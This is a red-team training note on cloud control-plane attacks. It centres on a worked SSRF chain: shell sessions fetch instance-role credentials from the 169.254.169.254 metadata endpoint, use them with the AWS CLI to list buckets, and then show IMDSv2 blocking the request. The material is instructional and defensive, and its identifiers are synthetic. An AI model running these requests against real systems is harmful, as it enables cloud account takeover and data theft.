

# Cloud Control Plane Operations

> [!warning] Authorized simulation only
> Run the metadata lab against the local mock only. Never query a real cloud metadata endpoint outside an authorized, scoped engagement, and never exfiltrate real session tokens.

## Parent Learning Order
Cloud Identity Operations -> Cloud Control Plane Operations -> Cloud Persistence Simulation -> Cloud Data Access Simulation

## Two Planes: Control and Data

> *You have root on the instance. What can still be done to it that you cannot see or stop?*
>
> Hold your answer — the section below is the response.

A cloud resource has a **data plane** (the app serving requests) and a **control plane** (the APIs that create, configure, and grant access to resources). Compromising the data plane gets you one server; compromising the control plane gets you the *account* — the ability to spin up resources, read every bucket, and mint credentials.

The bridge between them is the **Instance Metadata Service (IMDS)** at the link-local address `169.254.169.254`. Any code on a cloud VM can ask IMDS for the temporary credentials of the role attached to that instance. That is convenient for the app — and catastrophic when a **server-side request forgery (SSRF)** bug lets an attacker make the server fetch that URL for them.

**The deliberate break:** you got root on the instance, so you own the machine and everything on it. That is the on-premises conclusion and it understates the situation badly.

Cloud has **two planes**, and the host is the smaller one. The **data plane** is the instance — its filesystem, its processes, the thing root controls. The **control plane** is the API that created it, and it sits *above* the host: it can read the disk from a snapshot, replace the boot image, mint credentials, or delete the instance entirely, none of which root can prevent or even observe. So the interesting question after landing on a box is not what root can do; it is **what the instance's attached role can do**, because that identity operates in the plane above the one you compromised.

That is also why SSRF is so severe here rather than merely inconvenient — reaching the metadata endpoint hands you the role's credentials without ever touching the host at all.

**How you'd spot the real privilege:** query the instance's own identity and enumerate its permissions before enumerating the filesystem. An unprivileged web service with an over-permissive attached role is a bigger finding than root on a box with none.

## SSRF Is the Classic Control-Plane Pivot

The attack chain is short and devastating:

1. Find an SSRF in a data-plane app (an "enter a URL to fetch" feature, a webhook, a PDF renderer).
2. Point it at `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>`.
3. Receive the instance role's temporary `AccessKeyId` / `SecretAccessKey` / `Token`.
4. Use those credentials against the **control plane** — now you enumerate and act as the instance's role.

IMDSv2 mitigates this by requiring a PUT-obtained session token (a header a naive SSRF can't set), which is why "enforce IMDSv2" is the headline control.

The pivot from one server to the whole account, read left to right:



## Worked Example: SSRF to Full Account Credentials

The most consequential cloud pivot is short: an SSRF bug in one application
becomes the credentials of the whole account, because the instance metadata
service hands out the instance role's keys to anything that can reach it.

> [!note] Representative output
> Reconstructed to match the AWS CLI's real output shapes rather than captured from one account; identifiers are synthetic. The field names, error strings and command structure are what a live account returns.

**The SSRF fetches the metadata endpoint** instead of a normal URL:

```shell-session
$ curl -s "https://app.example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
web-app-instance-role
$ curl -s "https://app.example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-instance-role"
{
  "AccessKeyId": "ASIA4XMPLKEYEXAMPLE",
  "SecretAccessKey": "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token": "IQoJb3JpZ2luX2VjE...<800 chars>...",
  "Expiration": "2026-08-31T21:14:07Z"
}
```

The first request lists the role name attached to the instance; the second
retrieves that role's live temporary credentials. Note `169.254.169.254` — the
link-local address every cloud VM can reach and no external network can. The
application was built to fetch URLs; it was never meant to fetch *this* one, and
nothing in the feature distinguished them.

**The credentials work against the control plane** — the proof that a one-server
bug is now an account-level compromise:

```shell-session
$ export AWS_ACCESS_KEY_ID=ASIA4XMPLKEYEXAMPLE AWS_SECRET_ACCESS_KEY=wJalr... AWS_SESSION_TOKEN=IQoJ...
$ aws sts get-caller-identity
{
    "Account": "123456789012",
    "Arn": "arn:aws:sts::123456789012:assumed-role/web-app-instance-role/i-0abc123def456"
}
$ aws s3 ls
2025-11-02 09:14:55 acme-prod-backups
2025-12-18 16:02:31 acme-customer-exports
```

The attacker is now acting as the instance role, from their own machine, and can
enumerate the account's storage. The blast radius is exactly the permissions of
that role — which on a typical over-provisioned instance is far more than the one
application needed.

**IMDSv2 is the control that breaks this**, and the reason it works is visible in
one failed request:

```shell-session
$ curl -s "https://app.example.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
<html><body>401 - Unauthorized</body></html>
```

IMDSv2 requires a session token obtained by a `PUT` request carrying a specific
header, and a naive SSRF that can only issue `GET` requests cannot get one. The
metadata service refuses, and the pivot dies at step one. This is why "enforce
IMDSv2" is the single highest-value hardening step for cloud VMs, and why an
external test that reaches this endpoint at all is reporting a critical finding
regardless of what it then does with the credentials.

## Summary

You should now be able to:

- Why is stealing an instance's metadata credentials worse than compromising the app on it?
- You find an SSRF in a URL-preview feature. What exact request proves control-plane exposure with a canary?
- Explain precisely how IMDSv2's session-token requirement blocks a basic SSRF, and what SSRF variant can still defeat it.

---
> 🔼 Up: [[Cloud Red Team Operations]]
